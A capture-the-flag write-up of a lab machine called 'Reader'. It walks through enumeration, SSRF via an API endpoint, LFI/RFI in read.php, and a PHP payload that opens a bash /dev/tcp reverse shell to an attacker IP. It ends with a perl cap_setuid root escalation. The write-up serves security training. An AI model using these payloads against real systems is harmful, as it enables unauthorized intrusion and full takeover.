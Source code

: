 Please, ignore the machine ip changing during the writeup. I needed to restart the machine and the ip changed.

## Reader Machine Writeup


### Nmap Enumeration

First, we begin by running a comprehensive Nmap scan to identify open ports and services.

```bash
┌──(w44z㉿kali)-[~/Desktop/hackingclub/machines/reader]
└─$ nmap -p- -Pn -sC -sV --open -n -oG all-ports 172.16.8.236       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 18:23 -03
Nmap scan report for 172.16.8.236
Host is up (0.15s latency).
Not shown: 37472 closed tcp ports (conn-refused), 28061 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 54:7f:98:62:a0:6a:80:dd:d0:69:18:d8:ea:ee:ea:43 (ECDSA)
|_  256 d7:11:ca:f5:52:1f:90:ae:79:39:6c:93:a4:03:2d:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Emergency Maintenance
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.39 seconds
```

The Nmap scan reveals two open ports:

	•	Port 22 - SSH service running OpenSSH 8.9p1
	•	Port 80 - HTTP service running Apache 2.4.52 with an “Emergency Maintenance” page

HTTP Enumeration

Exploring the HTTP service on port 80, we observe an API endpoint (/api.php) that responds only to POST requests. This suggests potential for interaction and further exploitation.

Testing GET Request

Sending a GET request to /api.php:

```
GET /api.php HTTP/1.1
Host: 172.16.8.236
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://172.16.8.236/
Upgrade-Insecure-Requests: 1

```

Response:
```
HTTP/1.1 200 OK
Date: Mon, 04 Nov 2024 21:34:18 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 56
Connection: close
Content-Type: application/json

{"status":false,"msg":"Only POST requests are accepted"}
```

Testing POST Requests

Sending a POST request without parameters results in a message indicating a missing url parameter.

```
POST /api.php HTTP/1.1
Host: 172.16.8.236
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://172.16.8.236/
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

Response:

```
HTTP/1.1 200 OK
Date: Mon, 04 Nov 2024 21:34:42 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 46
Connection: close
Content-Type: application/json

{"status":false,"msg":"Missing url parameter"}
```

Testing with a url Parameter

Providing the url parameter as url=a:

```
POST /api.php HTTP/1.1
Host: 172.16.8.236
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://172.16.8.236/
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

url=a
```

Response:

```
HTTP/1.1 200 OK
Date: Mon, 04 Nov 2024 21:35:34 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 47
Connection: close
Content-Type: application/json

{"status":false,"msg":"Could not resolve host"}
```

Upon supplying a valid URL (url=http://127.0.0.1), we receive the following:

```
{"status":true,"output":"output-307788.txt"}
```

This confirms Server-Side Request Forgery (SSRF), as it allows interaction with internal resources on the server.

### Directory Enumeration with FFUF

Using FFUF for directory brute-forcing reveals an accessible logfiles directory:

```
┌──(w44z㉿kali)-[~/Desktop/hackingclub/machines/reader]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -u http://172.16.8.236/FUZZ               

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.8.236/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

logfiles                [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 144ms]
```

![logfiles page](logfiles.png)

![output-content](output-content.png)

Since we have a SSRF, let's try a port scanning.

Using Burp Suite Intruder, we send requests with different ports to determine which services are reachable through the SSRF by inspecting responses with a status of `true`.

![intruder](intruder.png)

Accessing the output file from the screenshot, we have the following page content inside the txt file:

![welcome](welcome.png)

Acessing the read.php through the SSRF, we have the following error coming from the server.

![file-param](file-param.png)

Giving it a try for LFI, we can confirm that the file param is vulnerable to LFI through the SSRF.
Testing for RFI, we can confirm we also have a RFI in the same param.

### Achieving Remote Code Execution (RCE)

Lets create a file with a reverse shell payload, and open a web server to receive the request. 

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.0.17.34/4444 0>&1'"); ?>
```

Serving this file via a web server, we execute it remotely by including the file through the vulnerable parameter. Meanwhile, we set up a listener to catch the reverse shell.

```bash
nc -lvnp 4444
```

![burp-shell-request](burp-shell-request.png)

![reverse-shell](reverse-shell.png)

User flag can be found in /home/webmaster directory.

### Privilege Escalation to Root

Inspecting the system, we find that perl has the cap_setuid capability, allowing us to escalate privileges.

```bash
webmaster@ip-172-16-9-215:/home/webmaster$ getcap -r /usr/bin 2>/dev/null
getcap -r /usr/bin 2>/dev/null
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/perl5.34.0 cap_setuid=ep
/usr/bin/perl cap_setuid=ep
/usr/bin/ping cap_net_raw=ep
```

Using Perl to set the UID to root and spawn a shell:

```bash
webmaster@ip-172-16-9-215:/home/webmaster$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
<OSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
id
uid=0(root) gid=1001(webmaster) groups=1001(webmaster)
```

We now have root privileges on the machine.

Root flag can be found in /root directory.